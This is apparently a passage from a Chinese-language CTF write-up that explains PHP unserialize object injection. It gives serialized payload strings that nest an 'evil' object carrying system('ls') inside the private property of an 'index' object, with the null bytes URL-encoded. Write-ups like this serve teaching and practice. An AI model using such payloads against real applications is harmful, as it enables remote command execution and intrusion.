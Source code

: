     ![了解调用链 1](/hello_ctf/images/ser1.png) (代码定义)
    *   **Payload 构造:**
        1.  序列化 `evil` 对象: `O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}` (假设 `action` 使用 `test2` 属性)
        2.  序列化 `index` 对象 (原始): `O:5:"index":1:{s:11:"\0index\0test";O:6:"normal":0:{}}` (注意私有属性格式 `\0index\0test`)
        3.  **手动修改:** 将 `index` 序列化字符串中 `test` 属性的值替换为 `evil` 对象的序列化字符串：
            `O:5:"index":1:{s:11:"%00index%00test";O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}}` (空字节需 URL 编码)